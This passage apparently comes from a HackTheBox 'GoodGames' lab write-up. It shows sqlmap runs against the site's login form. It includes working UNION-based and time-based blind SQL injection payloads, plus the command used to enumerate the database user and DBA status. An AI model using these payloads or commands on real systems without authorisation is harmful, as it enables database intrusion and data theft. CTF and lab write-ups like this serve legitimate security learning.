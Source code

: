     Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71716b7871,0x6556565a707445516e4f50797659665a524c546b464a4b48756462794871444b7955445079645357,0x7178716a71)-- -&password=
---
[12:35:25] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:35:25] [INFO] fetched data logged to text files under '/home/ops/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 12:35:25 /2022-12-22/
```

Checking who we are running as and if we are a DBA
```
[ 12:36PM ]  [ ops@redteam:~/Documents/PT/HTB-goodgames/data ]
 $ sqlmap -u "http://goodgames.htb/login" --data "email=*&password=*" --current-user --is-dba   
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:45:19 /2022-12-22/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[12:45:21] [INFO] resuming back-end DBMS 'mysql' 
[12:45:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=' AND (SELECT 1612 FROM (SELECT(SLEEP(5)))OMJn) AND 'asXf'='asXf&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71716b7871,0x6556565a707445516e4f50797659665a524c546b464a4b48756462794871444b7955445079645357,0x7178716a71)-- -&password=
---
[12:45:22] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:45:22] [INFO] fetching current user
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
current user: 'main_admin@localhost'
[12:45:27] [INFO] testing if current user is DBA
[12:45:27] [INFO] fetching current user
[12:45:27] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
current user is DBA: False
[12:45:27] [INFO] fetched data logged to text files under '/home/ops/.local/share/sqlmap/output/goodgames.htb'
